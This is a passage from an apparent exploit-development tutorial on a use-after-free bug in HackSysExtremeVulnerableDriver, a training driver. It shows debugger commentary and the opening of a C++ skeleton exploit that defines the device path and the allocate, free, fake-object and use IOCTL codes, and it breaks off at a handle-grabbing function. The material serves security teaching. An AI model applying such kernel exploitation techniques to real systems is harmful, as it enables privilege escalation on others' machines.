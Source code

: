 ![](/assets/images/AWE/1uaf.PNG)

It may not be immediately clear what's going on without stepping through the routine in the debugger but we actually have very little control over what is taking place here. I've created a small skeleton exploit code and set a breakpoint towards the start of the routine. Here is our code at the moment:
```cpp
#include <iostream>
#include <Windows.h>

using namespace std;

#define DEVICE_NAME             "\\\\.\\HackSysExtremeVulnerableDriver"
#define ALLOCATE_UAF_IOCTL      0x222013
#define FREE_UAF_IOCTL          0x22201B
#define FAKE_OBJECT_IOCTL       0x22201F
#define USE_UAF_IOCTL           0x222017

HANDLE grab_handle() {
```